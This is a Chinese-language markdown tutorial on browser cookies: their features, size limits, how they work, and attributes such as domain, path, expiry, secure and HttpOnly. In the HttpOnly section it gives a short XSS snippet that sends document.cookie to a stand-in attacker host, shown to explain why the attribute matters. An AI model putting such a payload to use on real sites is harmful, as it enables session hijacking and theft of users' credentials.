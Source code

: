 ## cookie
`cookie` 是存储在浏览器的一小段文本信息。

### cookie 特征
- 伴随着 `http` 地请求往返于浏览器和服务器之间。
- 不同域名或不同路径下 cookie 的存储区域是不一样的。
- 每个域名下的 cookie 总数是有限的，每个浏览器所能允许存储的 cookie 大小也是有限制的。

  浏览器|每个域名最大 cookie 总数|cookie 总字节数
  --|--|--
  Chrome|180|4096
  Firefox|150|4097
  InternetExplorer|50|5117
  Opera|60|4096
  Safari|600|4093
- 不可跨域，有实效性等。

### cookie 作用
- 标识用户身份。
- 同源下，跨页面通信的一种方式。

### cookie 原理
- 浏览器第一次请求，服务器通过响应头下发 cookie，标识用户身份。
- 浏览器第二次请求，会自动带上符合条件的 cookie，服务器根据 cookie 辨识身份，来返回合理的响应体。

![cookie-原理.png](imgs/cookie-原理.png)

### cookie 属性
**name**: 同一个 domain 下的 cookie-name 不可相同，否则会覆盖前者。有两个特殊的 name：

name|含义
--|--
__Secure- 前缀|以 __Secure- 为前缀的 cookie（其中连接符是前缀的一部分），必须与 secure 属性一同设置，同时必须应用于安全页面（即使用 HTTPS 访问的页面）
__Host- 前缀|以 __Host- 为前缀的 cookie，必须与 secure 属性一同设置，必须应用于安全页面（即使用 HTTPS 访问的页面），必须不能设置 domain 属性 （也就不会发送给子域），同时 path 属性的值必须为“/”

> [谷歌搜索](https://www.google.com/)就存在带有这种特殊前缀的 cookie-name。

**value**: 许多应用对其进行了编码，但按照 RFC 规范，无须编码。

**domain**: 控制 cookie 对哪个域有效。默认值是自动绑定当前站点的根路径。
- 不可跨域，比如在 localhost:5000 下不可设置 domain 为 127.0.0.1:7001 站点下的 cookie。
- 一级域名相同下的 cookie 可作用于二级域名，但是二级域名间不可交换使用。<br />比如：a.baidu.com 和 b.baidu.com 可使用 .baidu.com 域名下的 cookie，但 a.baidu.com 和 b.baidu.com 站点下的 cookie 不可相互使用。

**path**: 设置 cookie 的作用路径（就是页面路由 pathname）。

场景|含义
--|--
设置 cookie 时，缺省 path|默认是当前页面的 pathname
用户访问 /spa|可使用 / 和 /spa 下的 cookie，但不能使用 /ssr 下的 cookie。

**expires/max-age**: 设置 cookie 的过期时间。默认是 session，浏览器会话结束（关闭浏览器）时。
  - expires 是一个时间点，单位**毫秒**； 
  - max-age 是一个以**秒**为时间的时间段。可能的值：负数、0、正数。
    值|含义
    --|--
    负数|有效期为 session
    0|删除 cookie
    正数|有效期为创建时刻 + 最大时间

    ``` js
    // 两年后过期：
    const expires = new Date(Date.now() + 2 * 365 * 24 * 3600 * 1000).toGMTString()
    const maxAge = 2 * 365 * 24 * 3600;
    ```
**secure**: 默认情况下，不管是 http、https 协议的请求都会把 cookie 发送到服务端。设置 secure 为 true 时，此时的 cookie 只能在 https 等安全协议下传输。
> 注意：只有是在 https 安全协议下的 web 站点，才能设置 secure 的值。

**HttpOnly**: 是否禁止浏览器通过 document.cookie 获取 cookie。这样能有效防止 XSS 攻击。假如 hacker 植入 script 脚本成功了且目标站点 HttpOnly 又设置为 false，那么 hacker 可轻松获取用户的 cookie：

``` js
<script>
  new Image().src = 'http://www.hacker.com/c=' + decodeURIComponent(document.cookie)
</script>
```

### cookie 设置、获取、删除

### cookie 优缺点

### refs
- [MDN Set-Cookie](https://developer.mozilla.org/zh-CN/docs/Web/HTTP/Headers/Set-Cookie)
